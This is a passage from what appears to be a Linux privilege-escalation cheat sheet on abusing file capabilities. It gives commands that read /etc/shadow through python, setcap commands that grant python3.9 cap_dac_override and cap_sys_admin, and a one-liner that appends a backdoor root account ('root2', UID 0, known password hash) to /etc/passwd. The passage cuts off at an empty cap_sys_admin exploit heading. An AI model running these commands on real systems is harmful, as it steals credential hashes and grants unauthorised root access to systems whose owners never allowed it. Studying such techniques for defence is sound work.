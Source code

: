 ```bash
chmod 644 etc/shadow
```

```bash
head -1 etc/shadow
```

**python**

```bash
python -c "print(next(open('/etc/shadow')))"
```

```bash
python3 -c 'print(open("/etc/shadow").read())'
```

## cap_dac_override

Using this capability we can read as well as write in the sensitive files

#### Misconfiguring

```bash
setcap cap_dac_override+ep /usr/bin/python3.9
```

#### Exploiting


**Reading the `/etc/shadow` File**

```bash
/usr/bin/python3.9 -c 'print(open("/etc/shadow").read())'
python3 -c 'print(open("/etc/shadow").read())'
```

**Modifying `/etc/passwd` to Escalate Privileges**

Appending a new root user entry to `/etc/passwd`:

```bash
/usr/bin/python3.9 -c 'open("/etc/passwd", "a").write("root2:$1$RBQLuaaV$4Dqrii/GXbnYm5TGVw96y.:0:0:root:/root:/bin/bash\n")'
```

This effectively adds a new root user (`root2`) with a known password hash.




## cap_sys_admin

#### Misconfiguring

```bash
setcap cap_sys_admin+ep /usr/bin/python3.9
```


#### Exploiting
